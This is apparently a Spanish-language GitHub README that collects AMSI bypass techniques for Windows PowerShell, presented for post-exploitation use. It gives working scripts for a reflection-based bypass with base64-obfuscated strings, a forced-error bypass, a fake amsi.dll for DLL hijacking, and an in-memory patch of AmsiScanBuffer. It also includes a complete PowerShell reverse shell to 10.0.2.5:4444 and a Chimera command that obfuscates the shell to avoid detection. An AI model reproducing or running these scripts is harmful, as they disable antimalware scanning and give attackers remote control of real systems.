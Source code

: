 # Evasión de AMSI #

Este repositorio contiene algunos métodos de evasión en AMSI que he encontrado, fueron probados en los siguiewntes sistemas operativos:

- Windows 10
- Windows 11
- Windows Server 2016
- Windows Server 2019
- Windows Server 2022

Todos en sus versión nás reciente para el momento (21H2) y probados en PowerShell 5.1 como en 7.2

Se dejaron por fuera técnicas que ya han sido parchadas o que utilicen ejecutables o DLL modificadas debido a que, con el pasar del tiempo, las firmas de estos archivos son detectados por los antivirus; por esta razón se privilegiaron aquellas técnicas que puedan ser ejecutadas en memoria y con un usuario estándar lo cuales pueden ser útiles en un escenario de post explotación.

Estos scripts podrían ser detectados por AMSI en el futuro. Por lo que recomiendo usar herramienta de ofuscaión como [Chimera](https://github.com/tokyoneon/Chimera) o [Invoke-Stelth](https://github.com/JoelGMSec/Invoke-Stealth).

1. [Metodo Reflection de Matt Graeber](#Método-Reflection-de-Matt-Graeber "Goto Método-Reflection-de-Matt-Graeber")
2. [Error Forzado](#Error-Forzado "Goto Error-Forzado")
3. [DLL Hijacking](#DLL-Hijacking "goto DLL-Hijacking")
4. [Memory Patching](#Memory-Patching "Goto Memory-Patching")
5. [Ofuscación con Chimera](#Ofuscación-con-Chimera "Goto Ofuscación-con-Chimera")

## Método Reflection de Matt Graeber ##

| **Win 10** | **Win 11** | **Win 2016** | **Win 2019** | **Win 2022** |
|------------|------------|--------------|--------------|--------------|
| ![](https://img.shields.io/badge/PowerShell%205-Ok-brightgreen.svg)<br />![](https://img.shields.io/badge/PowerShell%207-Ok-red.svg) | ![](https://img.shields.io/badge/PowerShell%205-Ok-brightgreen.svg)<br />![](https://img.shields.io/badge/PowerShell%207-Ok-red.svg) | ![](https://img.shields.io/badge/PowerShell%205-Ok-brightgreen.svg)<br />![](https://img.shields.io/badge/PowerShell%207-Ok-red.svg) | ![](https://img.shields.io/badge/PowerShell%205-Ok-brightgreen.svg)<br />![](https://img.shields.io/badge/PowerShell%207-Ok-red.svg) | ![](https://img.shields.io/badge/PowerShell%205-Ok-brightgreen.svg)<br />![](https://img.shields.io/badge/PowerShell%207-Ok-red.svg) |

<details><summary>Ver Script</summary>
<p>
 
```PowerShell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```
 </p>
</details>

## Error Forzado ##

<details><summary>Ver Script</summary>
<p>
 
```PowerShell
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils' 
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)   
```
 </p>
</details>

## DLL Hijacking ##

<details><summary>Código de la amsi.dll falsa</summary>
<p>
 
````C++
#include "pch.h"
#include "iostream"
 
BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        LPCWSTR appName = NULL;
        typedef struct HAMSICONTEXT {
            DWORD       Signature;            // "AMSI" or 0x49534D41
            PWCHAR      AppName;           // set by AmsiInitialize
            DWORD       Antimalware;       // set by AmsiInitialize
            DWORD       SessionCount;      // increased by AmsiOpenSession
        } HAMSICONTEXT;
        typedef enum AMSI_RESULT {
            AMSI_RESULT_CLEAN,
            AMSI_RESULT_NOT_DETECTED,
            AMSI_RESULT_BLOCKED_BY_ADMIN_START,
            AMSI_RESULT_BLOCKED_BY_ADMIN_END,
            AMSI_RESULT_DETECTED
        } AMSI_RESULT;
 
        typedef struct HAMSISESSION {
            DWORD test;
        } HAMSISESSION;
 
        typedef struct r {
            DWORD r;
        };
 
        void AmsiInitialize(LPCWSTR appName, HAMSICONTEXT * amsiContext);
        void AmsiOpenSession(HAMSICONTEXT amsiContext, HAMSISESSION * amsiSession);
        void AmsiCloseSession(HAMSICONTEXT amsiContext, HAMSISESSION amsiSession);
        void AmsiResultIsMalware(r);
        void AmsiScanBuffer(HAMSICONTEXT amsiContext, PVOID buffer, ULONG length, LPCWSTR contentName, HAMSISESSION amsiSession, AMSI_RESULT * result);
        void AmsiScanString(HAMSICONTEXT amsiContext, LPCWSTR string, LPCWSTR contentName, HAMSISESSION amsiSession, AMSI_RESULT * result);
        void AmsiUninitialize(HAMSICONTEXT amsiContext);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
````
 </p>
</details>

````PowerShell
Copy-Item -Path C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Destination $pwd
& "$pwd\powershell.exe"
````

## Memory Patching ##

<details><summary>Ver Script</summary>
<p>

```PowerShell
$Win32 = @"
 
using System;
using System.Runtime.InteropServices;
 
public class Win32 {
 
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
 
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
 
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
 
}
"@
 
Add-Type $Win32
 
$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]0)
$Patch = [Byte[]] (0xc3, 0x90, 0x90)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 3)  
```
</p>
</details>

## Ofuscación con Chimera ##

<details><summary>Reverse Shell en PowerShell sin ofuscar</summary>
<p>

```PowerShell
$client = New-Object System.Net.Sockets.TCPClient("10.0.2.5",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
</p>
</details>

```bash
 /opt/chimera.sh -f /opt/shells/reverse.ps1 -o /tmp/chimera.ps1 -l 4 -v -c -i -j -g -r -p -b new-object,out-string
 ```
